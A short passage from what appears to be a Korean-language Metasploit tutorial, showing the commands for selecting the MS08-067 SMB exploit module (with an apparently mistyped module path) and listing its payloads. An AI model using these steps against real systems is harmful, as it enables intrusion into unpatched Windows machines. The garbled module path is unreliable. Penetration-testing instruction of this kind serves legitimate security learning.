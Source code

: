 ![2_26](./image2/search_ms_08_.png)

찾아낸 모듈을 사용하자 

```
msf > use exploit/winds/smb/ms08_067_netapi
```

'show payloads' 명령어를 통해 사용가능한 payloads들을 확인할 수 있다.

```
> show payloads
```
